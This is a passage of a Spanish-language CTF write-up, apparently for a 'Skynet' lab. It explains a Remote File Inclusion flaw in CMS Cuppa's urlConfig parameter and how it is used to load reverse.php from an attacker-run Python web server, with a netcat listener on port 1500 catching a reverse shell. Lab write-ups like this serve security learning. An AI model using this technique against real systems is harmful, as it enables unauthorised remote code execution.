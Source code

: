 ![](/assets/images/Skynet/image057.png)
 
Llegamos a encontrar que la aplicacion `CMS Cuppa` presenta la vulnerabilidad `Remote File Inclusion`, que se puede realizar ingresando una URL, que apunta hacia un archivo almacenado en un servidor web externo, como valor al `parametro GET urlConfig` con el fin de que la funcion `include`, contenida en el archivo `alertConfigField.php`, realice una solicitud GET al servidor web externo para solicitar el archivo. Luego, el archivo sera ejecutado por la funcion y se enviara el contenido de ejecucion a nuestro navegador web.

Ahora, utilizaremos el modulo `HTTPServer` de `Python` que nos permite ejecutar un servidor web en la red local con el fin servir nuestros archivos y subdirectorios del directorio actual. Ademas, uno de estos archivos, que contiene nuestro servidor web. es `reverse.php` que va a contener un codigo PHP que cuando se ejecute, nos generara una conexion reverse Shell desde el sistema objetivo hacia nuestro sistema.
 
![](/assets/images/Skynet/image059.png)

![](/assets/images/Skynet/image061.png)
 
Ahora pasaremos la URL `http://10.8.123.194/reverse,php` como valor del `parametro GET urlConfig` con el fin de que se ejecute el codigo PHP que contiene y nos genere la conexion reverse Shell hacia nuestra maquina, pero antes habilitamos el puerto 1500 en nuestra maquina para que este en escucha y esperando la conexion entrante. Para ello utilizamos la herramienta `netcat`. Ademas, utilizamos el comando `rlwrap` para que la Shell generada en nuestra maquina presente funcionalidades como el autocompletado de comandos, historial de comandos, etc.
 
